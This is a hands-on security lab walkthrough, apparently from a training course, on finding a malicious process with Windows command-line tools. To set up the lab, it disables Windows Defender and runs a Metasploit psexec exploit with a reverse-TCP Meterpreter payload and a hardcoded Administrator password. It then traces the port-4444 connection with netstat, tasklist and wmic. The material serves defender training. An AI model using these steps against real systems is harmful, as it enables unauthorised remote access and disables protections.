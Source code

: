 

# Windows CLI

In this lab, we will create **malware**, run it, and use the tools we went through in the slides to look at what an attack looks like on a live system.  

One of the best ways to learn is to actually just dig in and do it.  

Let’s get started by opening a Terminal.  

![](attachments/OpeningKaliInstance.png)

Alternatively, you can open a Kali instance by clicking the Kali logo in the taskbar.

![](attachments/TaskbarKaliIcon.png)

Before going any further, we need to ensure that **Windows Defender** is disabled. To do this, open a Windows **Powershell** by clicking the icon in the taskbar.

![](attachments/OpeningPowershell.png)

`Set-MpPreference -DisableRealtimeMonitoring $true`

![](attachments/windowscli_disabledefender.png)

Please note, if you get red errors that say ` A general error occurred that is not covered by a more specific error code.` that is OK!  It means **Defender** was disabled.  We run the above command to ensure that it is off for this lab.  It has a sneaky way of turning back on again...

Now that we disabled **Windows Defender**, we can head back to our **Kali** terminal.

Within the terminal, please run the following command:

`ifconfig`>

![](attachments/windowscli_ifconfig.png)

Please note the IP address of **==your==** Ethernet adapter. 

Please note that my adapter is called **eth0** and my IP address is **172.26.19.133.**   

==**Your IP Address and adapter name may be different.**==

Please note your IP address for the **ADHD Linux system** on a piece of paper:

We need to gain root access within our **Kali** terminal. To do that, run the following command:

`sudo su -`

Next, we will start the **Metasploit** handler with the following command:

`msfconsole -q`

It will take a second to connect, be patient!
When connected, our terminal will look like this.

![](attachments/windowscli_msfconnected.png)

Next, run the following command:

`use exploit/windows/smb/psexec`

![](attachments/windowscli_useexploit.png)

We will continue by running this command to set the location of the payload:

`set PAYLOAD windows/meterpreter/reverse_tcp`

We also need to set the RHOST IP by using the following command:

`set RHOST 10.10.1.209`

![](attachments/windowscli_sets.png)

Remember, your IP will be different!

Next, we need to set the SMB username and password. 

`set SMBUSER Administrator`

`set SMBPASS T@GEq5%r2XJh`

It should look like this:

![](attachments/windowscli_setuserpass.png)

Now, we can run the exploit command

`exploit`

![](attachments/windowscli_exploit.png)

While there is not much here for this lab, it is key to remember that these two commands would help us detect an attacker that is mounting shares on other computers (net view).  It would also tell us if an attacker had mounted a share on this system (net session). 

We are not done with network connections yet.  Lets try looking at our malware!

Run the following command in a Windows Powershell 
`netstat -naob`

![](attachments/windowscli_netstat.png)

Well, that is a lot of data. This is showing us which ports are open on this system **(0.0.0.0:portnumber)** or **(LISTENING)**.
As well as the remote connections that are made to other systems **(ESTABLISHED)**.  In this example, we are really interested in the **ESTABLISHED** connections:

![](attachments/windowscli_established.png)

Specificly, we are interested in the connection on port 4444 as we know this is the port we used for our malware.

Now, let's drill down on that connection with some more data:

`netstat -f`

I like to run -f with netstat to see if there are any systems with fully qualified domains that we may be able to ignore. 

![](attachments/windowscli_-f.png)

now we see our last connection with the port 4444.

Let's get the Process ID **(PID)** from the above screenshot so we can dig a little deeper.

![](attachments/windowscli_pid.png)

Now, let's dive in!

First we will start with tasklist  

`tasklist /m /fi "pid eq PID"`

==**YOUR PID WILL BE DIFFERENT!**==

![](attachments/windowscli_tasklist.png)

We can see the loaded **DLL's** above.  As we can see, there is not a whole lot to see here:

Let's keep digging with **wmic**:

`wmic process where processid=PID get commandline`

![](attachments/windowscli_wmic.png)

Ahh!!  Now we can see that the file was launched from the **command line**!  We know this because there are no options.

Let's see if we can see what spawned the process with **wmic**.

`wmic process get name,parentprocessid,processid | select-string PID`

![](attachments/windowscli_selectstring.png)

Lets go through the steps we took to hunt for a malicious process
>We found its parent process ID.  
>We did a search on that process ID.  
>As you can see above, it was launched by the cmd.exe process.  
>Note that the search we just did may turn up some other things launched by the command line as well.










 

